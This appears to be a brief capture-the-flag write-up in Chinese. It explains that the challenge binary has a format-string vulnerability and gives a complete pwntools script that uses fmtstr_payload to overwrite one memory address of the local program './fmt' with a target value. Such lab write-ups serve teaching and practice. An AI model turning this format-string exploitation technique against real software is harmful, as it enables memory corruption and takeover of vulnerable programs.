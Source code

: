 ![image-20220428194206488](wp/image-20220428194206488.png)

本题真的很简单，格式化字符串漏洞，使用pwntools的fmtstr_payload模块将对应地址的值改为目标值即可

```python
from pwn import *

p = process('./fmt')
context.update(arch = 'amd64')

targe = 0x403418

payload = fmtstr_payload(6, {targe:180})
p.sendline(payload)

p.interactive()
```